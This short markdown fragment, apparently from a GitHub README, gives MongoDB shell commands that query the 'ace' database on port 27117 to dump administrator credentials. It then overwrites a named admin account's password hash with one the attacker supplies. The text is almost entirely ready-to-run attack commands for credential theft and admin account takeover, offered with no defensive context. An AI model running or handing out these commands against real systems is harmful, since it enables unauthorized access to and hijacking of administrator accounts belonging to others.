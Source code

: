 
## quirey Mongo to see if you can get the admin creds
```
mongo --port <PORT> ace --eval "db.admin.find().forEach(printjson);"
```
Example:
```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
## Replace Mongo admin password
```
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```
